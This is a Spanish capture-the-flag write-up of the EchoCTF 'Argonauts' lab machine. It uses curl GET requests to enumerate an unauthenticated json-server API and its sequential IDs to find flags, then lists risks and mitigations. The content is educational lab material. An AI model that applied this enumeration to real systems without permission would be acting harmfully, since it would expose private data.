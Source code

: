 ![jason1](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/ARGONAUTS/jason1.png)
# Argonauts - CTF Writeup

**IP:** http://10.0.41.12:1337

---

## Introducción

La máquina **Argonauts** de **EchoCTF** presenta un reto basado en la exploración de una API JSON. El objetivo es descubrir banderas ocultas accediendo a distintos endpoints que revelan información sobre vehículos, propietarios y tipos de vehículos. La máquina funciona con un backend tipo JSON Server que expone datos mediante RESTful endpoints.

---

## Funcionamiento de json-server

**json-server** es una herramienta que crea rápidamente una API RESTful a partir de un archivo JSON, permitiendo realizar operaciones CRUD sobre recursos como `plates`, `owners` y `types`. Cada recurso tiene un endpoint estándar, y los datos se pueden obtener o modificar mediante llamadas HTTP.

---

## Reconocimiento y Exploración

Al acceder a `http://10.0.41.12:1337` se observa documentación indicando:


![jason2](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/ARGONAUTS/jason2.png)

- Endpoint inicial: `/DMV`
- Endpoint oculto para la bandera: `/??????`
Se realiza una lectura rapida de [jason_server](https://github.com/typicode/json-server) para entender su funcionamiento y posteriormente hacemos la primera consulta, esta consulta se puede hacer tanto con `curl` como modificando la URL del sitio directamente en el navegador, por motivos practicos lo hare desde `curl` en este caso.

```bash
curl http://10.0.41.12:1337/DMV
```

Respuesta:

```json
[
  {
    "id": 1,
    "plate_id": 1,
    "owner_id": 2,
    "type_id": 1
  },
  {
    "id": 2,
    "plate_id": 4,
    "owner_id": 2,
    "type_id": 1
  }
]
```

---

## Exploración detallada

### `/plate/1`

```bash
curl http://10.0.41.12:1337/plate/1
```

Respuesta:

```json
{
  "id": 1,
  "number": "6535 XYZ",
  "type_id": 1
}
```

### `/plate`

```bash
curl http://10.0.41.12:1337/plate
```

Respuesta (fragmento):

```json
[
  {"id":1,"number":"6535 XYZ","type_id":1},
  {"id":2,"number":"3735 QWE","type_id":2},
  {"id":3,"number":"ETSCTF_JUNO_WAS_HERE_HEHEHE","type_id":2},
  {"id":4,"number":"4890 LKJ","type_id":1},
  {"id":5,"number":"2193 JGH","type_id":2}
]
```

---

### `/owner`

```bash
curl http://10.0.41.12:1337/owner
```

Respuesta:

```json
[
  {"id":2,"name":"Name Surname other"},
  {"id":3,"name":"ETSCTF_JUNO_WAS_HERE_HEHEHE"}
]
```

---

### `/type`

```bash
curl http://10.0.41.12:1337/type
```

Respuesta:

```json
[
  {"id":1,"name":"VAN"},
  {"id":3,"name":"CAR"}
]
```

---

## Última bandera encontrada

Consultando el endpoint oculto que se sugiere en la documentación:

```bash
curl http://10.0.41.12:1337/ETSCTF
```

Respuesta:

```json
{
  "value": "ETSCTF_JUNO_WAS_HERE_HEHEHE"
}
```

---

## Riesgos de Seguridad

- Exposición total de datos sensibles sin autenticación.
- Falta de control de acceso y validación.
- IDOR implícito por uso de IDs secuenciales.
- Endpoint oculto sin protección.

---

## Vulnerabilidades

- Ausencia de autenticación y autorización.
- Exposición de banderas a través de endpoints públicos.
- Falta de validación de permisos en la API.

---

## Medidas de mitigación

- Implementar autenticación y autorización en la API.
- Usar identificadores no predecibles (UUIDs).
- Restringir métodos HTTP en producción.
- Monitorizar accesos y actividades sospechosas.
- No exponer datos sensibles en entornos públicos.

---

## Conclusión para enseñanza

Este reto ejemplifica cómo un json-server sin medidas de seguridad puede exponer datos confidenciales fácilmente. Es fundamental aplicar controles de acceso, validar permisos y evitar exposiciones innecesarias en APIs RESTful.

---

**-Writeup by SheepsStealer-**
